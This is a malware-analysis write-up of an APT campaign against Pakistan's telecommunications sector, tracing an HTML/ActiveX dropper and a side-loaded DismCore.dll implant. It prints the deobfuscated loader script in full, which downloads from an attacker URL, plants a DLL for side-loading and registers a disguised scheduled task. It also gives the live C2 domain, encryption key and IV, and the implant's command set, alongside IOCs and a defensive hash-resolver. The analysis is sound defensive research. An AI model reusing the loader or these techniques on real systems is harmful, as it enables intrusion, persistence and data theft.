---
title: "Welcome to the Darkness - APT Campaign Analysis"
description: "Detailed analysis of an APT campaign targeting Pakistan's telecommunications sector"
date: 2025-08-03
tags: ["malware-analysis"]
image: './banner.png'
authors: ['sonz']
---

## I. Over view

| File name | Welcome to the Darkness.html |
| --- | --- |
| sha256 | 56e926b816c062078f8acac3bd28e2759447d07d9fb6e1d31d2a032121c110c6 |
| File Size | 5.01 MB (5256901 bytes) |

This is an Easter Egg left behind in a cyberattack targeting the telecommunications sector in Pakistan, containing a message that says: *“Ocean Lotus bây giờ là samurai en tới cảm ơn anh em Nhật Bản”* .(OceanLotus (APT32) is a well-known APT group believed to originate from Vietnam. However, this information alone is not sufficient to confirm that this campaign was carried out by APT32.)

#### As always, here is the malware working flow


## **II. Analysis**

### **1\. HTML  - XML Payload**



Aside from being a message, this is also an XML payload, which suggests that the attacker might be targeting victims using Internet Explorer or Edge (in IE mode), as Internet Explorer is the only browser with deep integration of ActiveX in its architecture.

After decoding, we obtain the main payload.

```powershell
var 0x1b157c = 'https://datamero.org/biuA873q4jIUBoaFibnoianbscoia/AviationTelecom_Collaboration_Proposal_Template.xlsx',
    0x22165c = 'C:\\Users\\Public\\AviationTelecom_Template.xlsx',
    0x5aeab4 = new ActiveXObject('Microsoft.XMLHTTP') 0x5aeab4.open('GET', 0x1b157c, false) 0x5aeab4.send() var 0x1813f9 = new ActiveXObject('ADODB.Stream') 0x1813f9.Type = 1 0x1813f9.Open() 0x1813f9.Write(_0x5aeab4.responseBody) 0x1813f9.SaveToFile(0x22165c, 2) 0x1813f9.Close() try {
        var 0x5f25e7 = new ActiveXObject('Excel.Application') 0x5f25e7.Visible = true 0x5f25e7.Workbooks.Open(_0x22165c)
    } catch (_0x25329a) {
        try {
            var 0x331c2d = new ActiveXObject('Shell.Application') 0x331c2d.ShellExecute(_0x22165c, '', '', 'open', 1)
        } catch (_0x10604b) {}
    }
var 0xcef86d = new ActiveXObject('Scripting.FileSystemObject'),
    0x36a452 = new ActiveXObject('WScript.Shell'),
    0x519485 = 'C:\\Windows\\System32\\Dism.exe',
    0x2a8951 = 0x36a452.ExpandEnvironmentStrings('%ProgramData%') + '\\Dism.exe'
0xcef86d.CopyFile(_0x519485, _0x2a8951, true)

var _0x1406d8 = '......'

function 0x13fb9d(0x16a9b1) {
    return 0x16a9b1.split('').reverse().join('')
}

function 0x51863e(_0x3696a9) {
    return 0x3696a9.replace(/\$/g, '4').replace(/!/g, '1')
}
var 0x59d0bb = 0x13fb9d(0x1406d8),
    0x4394cd = 0x51863e(_0x59d0bb)
function 0x57b9c6(0x14eabc) {
    var 0x12c554 = []
    for (var 0x25f627 = 0; 0x25f627 < 0x14eabc.length; 0x25f627 += 2) {
        0x12c554.push(parseInt(_0x14eabc.substr(_0x25f627, 2), 16))
    }
    return 0x12c554
}

function 0x3e9123(_0x16fbd2) {
    var 0x1a57aa = new ActiveXObject('MSXML2.DOMDocument.3.0'),
        0x513b5f = 0x1a57aa.createElement('tmp') return ((0x513b5f.dataType = 'bin.base64'), (_0x513b5f.text = 0x16fbd2), 0x513b5f.nodeTypedValue)
}
var 0x6f6e04 = 0x57b9c6(_0x4394cd),
    0x87ad5a = ''
for (var 0x5594ae = 0; 0x5594ae < 0x6f6e04.length; 0x5594ae++) {
    0x87ad5a += String.fromCharCode(_0x6f6e04[_0x5594ae])
}
var 0x2dabab = 0x3e9123(_0x87ad5a),
    0xe9437f = 0x36a452.ExpandEnvironmentStrings('%ProgramData%') + '\\6092E833-F189-4160-951D.log',
    0x1813f9 = new ActiveXObject('ADODB.Stream') 0x1813f9.Type = 1 0x1813f9.Open() 0x1813f9.Write(_0x2dabab) 0x1813f9.SaveToFile(0xe9437f, 2) 0x1813f9.Close() var 0x55b936 = 0x36a452.ExpandEnvironmentStrings('%ProgramData%') + '\\DismCore.dll'
0xcef86d.FileExists(_0x55b936) && 0xcef86d.DeleteFile(0x55b936) 0xcef86d.MoveFile(0xe9437f, 0x55b936) var 0x2aa9c0 = new ActiveXObject('Schedule.Service') 0x2aa9c0.Connect() var 0xc7c6cd = 0x2aa9c0.GetFolder('\\'),
    0x4651f3 = 0x2aa9c0.NewTask(0),
    0x19d5c7 = 0x4651f3.Triggers,
    0x19a466 = 0x19d5c7.Create(1) 0x19a466.Repetition.Interval = 'PT04M'
0x19a466.StartBoundary = '1995-12-31T09:00:00'
var 0x2614aa = 0x4651f3.Actions,
    0x2abe19 = 0x2614aa.Create(0) 0x2abe19.Path = 'C:\\ProgramData\\Dism.exe'
0x4651f3.RegistrationInfo.Description = 'MicrosoftEdgeUpdateTaskMachineCoreXUI'
0x4651f3.Principal.LogonType = 3
var 0x794bb5 = 0xc7c6cd.RegisterTaskDefinition('MicrosoftEdgeUpdateTaskMachineCoreXUI', _0x4651f3, 6, null, null, 3, null)
```

The payload downloads a decoy Excel file and saves it in the `C:\Users\Public` directory, using `Microsoft.XMLHTTP` and [`ADODB.Stream`](http://ADODB.Stream) to perform the download.


At the time of analysis, the Excel file could no longer be downloaded, but its information was preserved on X (formerly Twitter) by the researcher Arda Büyükkaya.

The payload then copies **Dism.exe** from `C:\Windows\System32` to `%programdata%`, likely to perform DLL side-loading.


The component **\_0x1406d8** is the most critical part of the attack (the main payload). This payload is decoded and then saved as `6092E833-F189-4160-951D.log` in `%programdata%`, before being renamed to **DismCore.dll**.

Since the payload previously copied **Dism.exe** to `%programdata%`, when Dism.exe is executed, Windows will search for the DLL in `%programdata%` first, before checking System32.

The payload achieves persistence by creating a scheduled task named **MicrosoftEdgeUpdateTaskMachineCoreXUI**, which runs every 4 minutes.

### **2\. DismCore.dll**

| File name | DismCore.dll |
| --- | --- |
| sha256 | de804318db0cd5ef242e2d0e4e66e322f2fcee5ad41787b264d1576323b35eec |
| File Size | 315.00 KB (322560 bytes) |

#### 2.1. Information Collection Methods

Right after initialization and before sending the first "check-in" packet, the agent performs an automated reconnaissance phase to build a detailed profile of the victim’s system. The key information collected includes:

\*\* **Host Information**:

**Hostname**: Retrieving the account information of the user currently logged into the machine using the **GetUserNameW** function.



**Fully Qualified Domain Name**: Using **GetComputerNameExW** with the **ComputerNameDnsFullyQualified** flag.


**\*\* User Information:**

**User name**: Using **resolveAndCallKernel32Function** (a wrapper for **GetUserNameW**).


**\*\* Network Information:**

**IP adress**: Executing a series of network API calls (**WSAStartup**, **socket**, **connect** to a temporary address, **getsockname**) — not for establishing a C2 connection, but as a technique to obtain the local IP address of the active network interface.


**\*\* Process Information:**

Process ID (PID):Using **GetCurrentProcessId()**.



**\*\* Identifier Information:**

Agent ID: Generating or using a unique identifier (e.g., **bc88a749-3fd0-4ff4-ac7e-573d034aa97**) so that the C2 server can distinguish between different agents.

**\*\*Operating System Information:**

**Architecture:** Identified as **x86\_64**.  
**OS Name:** Identified as **Windows**.

All of this information is compiled into a metadata packet (in JSON format), which is then encrypted and sent during the first communication with the C2 server.

**The beacon packet after data collection:**

```json
{"action":"checkin","ip":"……","os":"Windows","user":"…..","host":"……",
"pid":1276,"uuid":"bc88a749-3fd0-4ff4-ac7e-573d034aa97f","architecture":"x86_64","domain":""}
```

#### **2.2.Anti-debugging and Evasion Techniques**

The agent is equipped with multiple layers of defense to prevent detection and analysis:

When the malicious DLL is loaded, the malware calls **FreeConsole()**, likely to hide the execution window.



**\*\* Mutex Locking**:

It creates a **Mutex** with the same name as the victim's computer. If **GetLastError()** returns **ERROR\_ALREADY\_EXISTS**, the malware terminates itself, ensuring that only one instance runs at any given time.


Before sending the beacon packet to the C2 server, the malware performs several anti-debugging techniques.

**\*\* Debugger Detection:**

**Direct API call:** Uses **CheckRemoteDebuggerPresent** to check the **BeingDebugged** flag in the Process Environment Block (PEB).



**Low-level API call:** Uses **NtQueryInformationProcess** with the **ProcessDebugPort** flag (value 7) to stealthily check whether the process is being debugged.


**Exception-based:** Uses the **AddVectoredExceptionHandler** technique to register a custom exception handler. It then deliberately triggers a **STATUS\_SINGLE\_STEP** exception (by enabling the Trap Flag). If its own exception handler is called first (instead of the debugger’s), it determines that the environment is "clean".




**Using VirtualAlloc:** Some malware or security programs use this trick to detect debuggers or sandboxes, as certain malware analysis environments may handle unusual API calls differently.


**\*\* API Obfuscation:**

This malware sample implements the **API Hashing** technique to conceal system API calls. Instead of explicitly declaring the APIs, it precomputes hash values for the function names and then performs dynamic address resolution at runtime. This approach ensures that the Import Address Table (IAT) contains no references to sensitive APIs, effectively bypassing most static analysis efforts. Enumerate the module list of the current process via the PEB, then compare the target hash with the hash of the modules in the list.


The malware uses the **djb2** hashing algorithm to calculate API hashes.([https://gist.github.com/MohamedTaha98/ccdf734f13299efb73ff0b12f7ce429f](https://gist.github.com/MohamedTaha98/ccdf734f13299efb73ff0b12f7ce429f))

For this API hashing technique, it is possible to write a simple script to brute-force the API name from its hash.

```python
import os

def calculate_hash(name: str) -> int:

    hash_value = 0x1505 

    for byte in name.encode('ascii'):
        char_val = byte
        
        if ord('a') <= char_val <= ord('z'):
            char_val -= 0x20
        
        hash_value = (hash_value * 0x21 + char_val)
        
    return hash_value & 0xFFFFFFFF

def load_all_api_data():

    api_data = {
        "kernel32.dll": [
                  function list kernel32
          ],
        "ntdll.dll": [
            function list ntdll
           ]
        "user32.dll": [
           function list user32
        ],
        "advapi32.dll": [
            function list advapi32
        ]
    }
    return api_data

def bruteforce_all_hashes():

    target_hashes = {
        0xDF1B3DA: "xxx"
       
    }
    
    found_results = {}
    api_data = load_all_api_data()
    
    print("=== Universal API & Module Hash Resolver ===")

    for module_name, api_list in api_data.items():
        module_hash = calculate_hash(module_name)
        if module_hash in target_hashes and module_hash not in found_results:
            found_results[module_hash] = module_name
            
        for api_name in api_list:
            api_hash = calculate_hash(api_name)
            if api_hash in target_hashes and api_hash not in found_results:
                result_str = f"{api_name} (from {module_name})"
                found_results[api_hash] = result_str

    print("\n" + "="*60)
    print("="*60)
    
    all_found_count = 0
    for hash_val, description in sorted(target_hashes.items()):
        if hash_val in found_results:
            print(f"  {hex(hash_val):<12} -> {found_results[hash_val]}")
            all_found_count += 1
        else:
            print(f"  {hex(hash_val):<12} -> NO RESULT ({description})")

if __name__ == "__main__":
    bruteforce_all_hashes()
```

**\*\* String Obfuscation:**

The malware protects its critical strings from detection using an XOR encryption layer. However, instead of using a static key, it employs a dynamic key generation method. A set of functions, which I have identified as **ComputeHashedOffset\_**, is responsible for calculating the decryption keys at runtime. Each critical string (such as the C2 server URL, User-Agent, DLL names, and APIs) is decrypted by combining its ciphertext with a corresponding XOR key. This technique effectively helps the attackers conceal IoCs.




The keys used to decrypt critical strings are generated by the **ComputeHashedOffset\_**\* functions.

**Use of CDN:** The C2 server is placed behind a major CDN (Amazon CloudFront) to conceal its real IP address and leverage the trust of cloud services.

**Traffic spoofing:** A legitimate User-Agent and an innocuous-looking URI path (e.g., `/bootstrap3.js`) are used so that C2 requests appear like normal web traffic.

**Sleep and Jitter:** The malware pauses its activity (Sleep) between communications and adds random intervals (Jitter) to break predictable communication patterns.

#### **2.3. Encryption Method**

The agent implements a custom and robust encryption protocol to secure all C2 communications:

**Algorithm:** Specified in the configuration as **aes256\_hmac**.

**Data Encryption (Encryption\_aes-256-cbc):**

* **AES-256 in CBC mode (Cipher Block Chaining):** All transmitted and received data is encrypted using AES with a 256-bit key. The CBC mode ensures that identical plaintext blocks produce different ciphertext blocks.
    
* **Initialization Vector (IV):** A 16-byte random IV is generated for each packet and is prepended to the ciphertext.
    

```plaintext
ENC_KEY
9c ac fe 78 da 03 65 57 58 bf ac 9f 61 7a df aa 16 c2 4c e7 b2 92 6d 97 c2 3a 08 64 64 f3 3a 4f
IV
A5 5A 98 87 A3 24 5B 15 C4 F4 20 48 98 AC B3 81
```





**Integrity & Authentication (HMAC-SHA256):**

* **HMAC-SHA256:** After encrypting the data with AES, an HMAC-SHA256 is computed over the entire AES ciphertext. This HMAC value is then appended to the end of the packet.
    
* When receiving data, the agent recalculates the HMAC and compares it with the received HMAC. If they do not match, the data is discarded. This prevents man-in-the-middle attacks that attempt to modify data in transit.
    

**Transport Layer Encoding:**

* **Base64:** Before C2 communication occurs, the malware performs a final Base64 encoding step before sending the data. The data being sent includes the IV, the AES-encrypted ciphertext, and the HMAC-SHA256 for integrity verification.
    
* This Base64 data then becomes the sole content of the HTTP POST body. Attackers often use such techniques to “wrap” binary data safely for text-based protocols like HTTP, allowing it to blend into normal web traffic and evade detection by monitoring systems.
    

Using **FakeNet**, we can capture the beacon packet.


#### **2.4. Connection Method**

The agent uses the **WinHTTP** library of Windows to perform network communications.

* **Library:** `winhttp.dll` is dynamically loaded at runtime using the API hashing technique.
    
* **Protocol:** **HTTPS** (HTTP over SSL/TLS), specified by the `WINHTTP_FLAG_SECURE` flag when creating the request.
    
* **Method:** **HTTP POST**. Encrypted data is sent in the body of the request.
    

**Connection Procedure:**

1. **WinHttpOpen:** Initializes a WinHTTP session and provides a custom User-Agent.
    
2. **WinHttpConnect:** Establishes a connection to the C2 domain ([`d11d6t6zp1jvtm.cloudfront.net`](http://d11d6t6zp1jvtm.cloudfront.net)) on port 443.
    
3. **WinHttpOpenRequest:** Creates a request handle with the **POST** method and URI path (`/bootstrap3.js`).
    
4. **WinHttpAddRequestHeaders:** Adds additional HTTP headers (e.g., Cookie).
    
5. **WinHttpSendRequest:** Sends the headers and request body to the C2 server.
    
6. **WinHttpReceiveResponse:** Waits for and receives the response from the C2.
    
7. **WinHttpReadData:** Reads the content of the response.
    
8. **WinHttpCloseHandle:** Closes all handles to clean up and avoid leaving open connections.
    

---

#### **2.5. Task Execution from the Attacker**

The agent features a flexible and powerful command orchestration architecture:

* **Command Router (C2\_TaskRouter):**  
    After receiving and decrypting commands from the C2, they are passed to a central “router” function.  
    This function acts as a large **switch-case**, reading a **keyword** for each command to determine which action to take.
    
* **Commands and Handlers:**
    

1. **coffee:** Routes to **ProcessC2TaskAndReflectivelyLoadPayload**.  
    This function performs **Reflective Loading** to load and execute .NET/DLL code directly from memory, allowing for virtually unlimited functionality expansion.
    


2. **upload:** Routes to **HandleFileUploadAndWriteToDisk**. This function receives binary data from the C2 server, creates a file on disk, and writes the data into it.
    


3. **download:** Routes to **HandleFileDownloadAndReportArtifacts**. This function reads a specified file from disk, encrypts its contents, and sends it back to the C2 server, along with an "artifact" report of the action performed.
    


4. **sleep & exit:** These commands are handled directly within **C2\_TaskRouter** to adjust the configuration or terminate the agent.
    



**Result Reporting:** After each task is executed, a result record (indicating success, failure, or command output) is generated, formatted as JSON, and queued to be sent back to the C2 server in the next beacon.

## **III. IOC and MITRE-ATTCK**

| https://d11d6t6zp1jvtm.cloudfront.net | C2 | N/a |
| --- | --- | --- |
| Welcome to the Darkness.html | XML payload | 56e926b816c062078f8acac3bd28e2759447d07d9fb6e1d31d2a032121c110c6 |
| DismCore.dll | Main payload | de804318db0cd5ef242e2d0e4e66e322f2fcee5ad41787b264d1576323b35eec |
| %programdata% | Folder malware | N/a |

**MITRE ATT&CK Techniques**

**Initial Access:**

* **User Execution: Malicious File (T1204.002):** The victim is tricked into executing a malicious `.html` file.
    

**Execution:**

* **Native API (T1106):** Directly invokes low-level Windows API functions to perform actions.
    
* **Scheduled Task/Job (T1053.005):** (Possibly used for persistence).
    

**Persistence:**

* **DLL Side-Loading (T1574.002):** Executes the malicious DLL (**DismCore.dll**) by loading it through a legitimate Windows process (**Dism.exe**).
    

**Defense Evasion:**

* **Obfuscated Files or Information (T1027):** Uses API hashing and string encryption to hide intentions from static analysis tools.
    
* **Deobfuscate/Decode Files or Information (T1140):** Decodes C2 configuration and strings at runtime.
    
* **Process Injection: Reflective Loading (T1055.001):** Loads and executes code (.NET assembly) entirely in memory without writing files to disk.
    
* **Masquerading (T1036):** Mimics network traffic to appear as if it’s requesting a JavaScript file (`bootstrap3.js`) with a legitimate User-Agent.
    
* **Virtualization/Sandbox Evasion (T1497):** Uses low-level functions to detect analysis environments and debuggers.
    

**Discovery:**

* **System Information Discovery (T1082):** Collects computer name, username, and OS architecture.
    
* **System Network Configuration Discovery (T1016):** Collects internal IP addresses.
    
* **File and Directory Discovery (T1083):** Capable of listing and reading files on the system via the `download` command.
    

**Collection:**

* **Data from Local System (T1005):** Exfiltrates data from files on the victim’s disk.
    

**Command and Control:**

* **Application Layer Protocol: Web Protocols (T1071.001):** Uses HTTPS as the communication channel.
    
* **Encrypted Channel (T1573):** All communication is encrypted with a custom protocol (AES-256-CBC + HMAC-SHA256).
    
* **Data Obfuscation (T1001):** C2 packets are Base64-encoded to appear as normal text data.
    
* **Bidirectional Communication (T1102.002):** The C2 channel allows two-way communication for command execution and result reporting.
    

**Exfiltration:**

* **Exfiltration Over C2 Channel (T1041):** Stolen data is sent back to the attacker via the encrypted C2 channel.
    

### References


[https://x.com/WhichbufferArda/status/1933300356370325981](https://x.com/WhichbufferArda/status/1933300356370325981)
